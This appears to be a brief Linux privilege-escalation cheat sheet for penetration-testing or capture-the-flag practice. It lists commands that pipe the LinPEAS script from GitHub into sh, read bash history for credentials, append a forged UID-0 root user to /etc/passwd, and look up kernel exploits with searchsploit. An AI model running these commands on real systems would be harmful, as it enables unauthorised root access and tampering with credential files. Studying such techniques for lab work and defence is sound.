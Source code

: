 ## Have you tried this?
```
Reuse passwords with su root
```

## LinPEAS
```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

https://github.com/peass-ng/PEASS-ng/blob/master/linPEAS/README.md
```
## Environment
```
env : can check for any unusual variable entry
cat .bashrc: use to check if the variable is perm
cat .bash_history : used to check bash history files
```
## Password Authentication
```
Before trying, check if you have write perms to /etc/passwd
openssl passwd [whatever you want]: to create a password hash
echo "root2:[password hash]:0:0:root:/root:/bin/bash" >> /etc/passwd

escalate by logging into the new user
su root2
```
## Kernel
https://github.com/lucyoa/kernel-exploits
```
enumerate the version and system arch first
cat /etc/issue
uname -r 
arch

afterwards, use searchsploit to find relevant exploit
searchsploit "linux kernel Ubuntu xx Local Privilege Escalation"   | grep  "x." | grep -v " < x.x.x" | grep -v "x.x"
```

## Viewing softwares present in the system
```
dpkg -l
```

